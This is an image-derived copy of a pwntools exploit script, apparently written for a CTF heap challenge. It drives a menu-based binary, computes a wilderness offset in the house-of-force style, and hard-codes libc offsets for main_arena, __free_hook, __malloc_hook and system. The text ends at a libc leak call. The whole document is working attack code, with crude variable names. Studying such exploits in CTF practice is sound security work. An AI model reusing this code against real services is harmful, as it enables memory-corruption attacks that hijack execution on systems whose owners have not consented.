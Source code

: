 ```py
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv,aslr=True, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

def make(fname,lname,fuck,fuck2,year=1992,month=2000,day=0,commentlen=10,comment=''):
	io.sendlineafter('> ','1')
	io.sendlineafter('name: ',fname)
	io.sendlineafter('name: ',lname)
	io.sendlineafter('[y]: ',fuck[0])
	if fuck[0]=='y':
		io.sendlineafter(':',str(year))
		io.sendlineafter(':',str(month))
		io.sendlineafter(':',str(day))
	io.sendlineafter('[y]: ',fuck2[0])
	if fuck2[0] == 'y':
		io.sendlineafter(':',str(commentlen))
		io.sendlineafter(':',comment)
	io.sendlineafter('[y/n]','n')

def delete():
	io.sendlineafter('> ','4')
	io.sendlineafter('[y/n]','n')

def show(idx):
	io.sendlineafter('> ', '3')
	io.sendlineafter('user: ',str(idx))

def launch():
	io.sendlineafter('> ','5')
	io.sendlineafter('[y/n]','n')

def return_size(target, wilderness):
    return target - wilderness - 0x10

#offsets
mainarena_offset = 0x3ebc40
free_hook = 0x3ed8e8
malloc_hook = 0x3ebc30
system = 0x4f4e0
#leak libc
show(38)
```